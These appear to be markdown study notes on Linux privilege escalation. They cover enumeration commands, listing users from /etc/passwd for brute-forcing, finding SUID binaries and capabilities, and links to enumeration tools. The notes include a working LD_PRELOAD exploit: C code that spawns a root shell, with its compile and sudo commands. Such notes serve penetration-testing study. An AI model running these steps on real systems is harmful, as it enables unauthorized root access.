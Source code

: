 # Enumeration
## Linux
**Commands:** \
`whoami` - gives the current user \
`hostname` - hostname of target machine \
`uname -a` - prints system information like OS and kernel version, hostname, system time, arch ... \
`ps` - show processes, `-a` or `-e` show all processes, `-axjf` shwo process tree \
`env` - show envirinment variables \
`sudo -l` - show what commands can be run as root with sudo \
`id` -shows user privileges and groups 

**Files** \
`/proc/version` - proc file system (procfs) gives more info about the kernel and istalled tool like compilers \
`/etc/issue` - system file, contains info about the OS \
`/etc/passwd` - shows users and other info, in this context we are only interested in the users \
`cat /etc/passwd | cut -d ":" -f 1` - cuts out only the users in passwd, can be used for brute force attacks

**Network** \
`ifconfig` \
`ip route` \
`netstat` - shows info about existing communications \
>`-a` - shows all listening ports and established conns \
>`-at` / `-au` - lists TCP resp. UDP \
>`-l` - list ports in listening mode \
>`-s` - shows usage statistics by protocol, can be combiled with spesific protocol filters \
>`-p` - shows connections with service name and PID info, can also be combined with specific protocols \
>`-i` - shows interface statistics

**find** \
see [find](https://github.com/leeky-mem/linux-notes/blob/main/commands.md) for basics. For privilege escalation searching for specific permissions is important. \
`-perm mode` - mode can be u,g,o(i.e user,goup,other). In this mode permission bits must match exactly. `-perm o=w` matches only files with mode 0020. \
`-perm -mode` - matches all files wich have mode, but not exclusivly. \  
`find / -perm -u=s -type f 2>/dev/null` - find files with SUID bit set. SUID bit allows to run the file with the privilege level of the owner.

## Automated Enumeration
[LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) - scrip .sh \
[LinEnum](https://github.com/rebootuser/LinEnum) - script .sh \
[LES (Linux Exploit Suggester)](https://github.com/mzet-/linux-exploit-suggester) - script .sh \
[Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration) - script .sh \
[Linux Priv Checker](https://github.com/linted/linuxprivchecker) - script python or .sh

# Sudo
[GTFOBins](https://gtfobins.github.io/) a list of commands and binaries which can be abused to elevate privileges. \
`sudo -l` - show which commands the current user can use with sudo

## Abusing LD_PRELOAD
The `LD_PPRELOAD` environment option can be abused to spawn root shell with programs that can be executed with sudo.

The steps of this privilege escalation vector can be summarized as follows:

1. Check for LD_PRELOAD (with the env_keep option)
2. Write a simple C code compiled as a share object (.so extension) file
3. Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file

The C code will simply spawn a root shell and can be written as follows:
```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/bash");
}
```
Compile as a shared library: \
`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

Run a program we can as root: \
`sudo LD_PRELOAD=/path/to/shell.so <sudoable program>`

## SUID / SGID
Files with the SUID bit set do not drop elevated privileges when executed by a different user.

Find binaries with SUID bit set: \
`find / -type f -perm -04000 -ls 2>/dev/null`

[This](https://gtfobins.github.io/#+suid) list contains binaries that can be used for privilage escalation when SUID bit is set:

## Capabilities
Capabilities are a way for sysadmins to give an application more capabilities for unprivileged users. This way, the admin does not need to elevate the privileges of a user in order to do a specific task. [GTFO](https://gtfobins.github.io/#+capabilities) has a good list of binaries that can be used with certain caps.

List binaries with capabilities: \
`getcap -r / 2>/dev/null`

The `setuid` capability can be used to set the uid of a shell to root (uid=0).

